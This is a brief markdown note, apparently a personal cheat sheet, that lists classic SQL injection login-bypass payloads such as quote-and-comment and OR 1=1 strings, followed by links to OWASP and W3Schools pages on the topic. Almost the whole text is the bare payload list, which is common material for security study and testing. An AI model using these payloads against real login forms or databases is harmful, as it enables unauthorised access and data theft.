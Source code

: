# SQL Inject

admin' --

admin' #

admin'/*

' OR 1=1 --

' OR 1=1 @

' OR 1=1 #

' OR 1=1/*

') OR '1'='1--

') OR ('1'='1--

" OR ""="

'1'='1

## Links

https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html

https://www.w3schools.com/sql/sql_injection.asp
